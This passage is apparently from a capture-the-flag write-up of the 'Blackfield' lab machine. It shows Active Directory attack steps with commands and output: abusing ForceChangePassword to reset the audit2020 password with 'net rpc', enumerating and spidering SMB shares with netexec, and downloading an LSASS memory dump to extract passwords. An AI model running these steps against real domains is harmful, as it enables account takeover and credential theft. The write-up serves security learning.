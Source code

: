 After uploading our json files, let’s search for our user support:

![image.png]({{ site.baseurl }}/assets/blackfield/image%201.png)

It seems we have ForceChangePassword on audit2020 account. Let’s change their password and see what privileges they own.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

net rpc password "audit2020" "newP@ssword2022" -U "blackfield"/"support"%"#00^BlackKnight" -S "10.10.10.192"
```

Now verify the changes:

```bash
nxc smb 10.10.10.192 -u audit2020 -p "newP@ssword2022" --shares

SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:newP@ssword2022 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

It seems we have read permission over forensic file share. In bloodhound we do not see any additional group or other outbound control privileges. Let’s see what files are in forensic:

```bash
nxc smb 10.10.10.192 -u audit2020 -p "newP@ssword2022" --spider forensic --regex .
```

It seems this drive contains forensic artefacts. It has lsass in RAM, this could contain passwords:

![image.png]({{ site.baseurl }}/assets/blackfield/image%202.png)

Let’s download the zip file:

```bash
smbclient //10.10.10.192/forensic -U audit2020%"newP@ssword2022"

cd memory_anlaysis

get lsass.zip
```
